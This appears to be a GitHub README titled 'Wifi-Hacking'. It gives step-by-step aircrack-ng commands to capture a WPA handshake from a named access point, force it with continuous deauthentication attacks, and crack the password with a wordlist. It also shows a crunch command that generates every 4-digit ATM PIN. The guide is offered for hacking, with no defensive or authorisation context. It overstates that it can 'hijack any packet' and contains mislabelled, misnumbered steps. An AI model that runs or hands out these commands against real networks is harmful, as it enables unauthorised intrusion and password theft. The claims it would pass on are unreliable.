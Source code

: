 # Wifi-Hacking
This method allows hackers to hijack any packet of data that is being transmitted between a device and a router

![logo-wifi-some-countries-banning-wifi-schools-should-south-13 (2)](https://github.com/HackWithSumit/Wifi-Hacking/assets/120317751/6bc41f4b-7fc4-4c28-82a3-e6123102cc08)


Wifi Hacking

Divided into 5 steps:

1. Starting the Monitoring mode on the adapter. -> 
     
         airmon-ng start wlan0


4. Discovering the available networks: 
    
       airodump-ng wlan0
6. Performing authentication (Capturing the packets) -> 

       airodump-ng -c 6 -w oneplus --bssid A2:B0:A6:79:E4:8B wlan0
8. Performing De-authentication (Once this is successful we will be able to able to see "WPA Handshake" in above step) -> 
  
        aireplay-ng -0 0 -a A2:B0:A6:79:E4:8B wlan0 
10. Cracking the password. 

        aircrack-ng -w wordlist.txt kali.cap

         
       
  Once the password matches we will get the correct password.


  Crunch tool comes pre-installed in Kali. 

Command: 

     crunch <min> <max> [options]

  
Example: Creating atm pins, so we know that atm pin is of 4 digits to max and min will be of 4 digits and could be anywhere between 0-9. 
  
So the command will be 
  
     "crunch 4 4 0123456789 -o<output file path>"



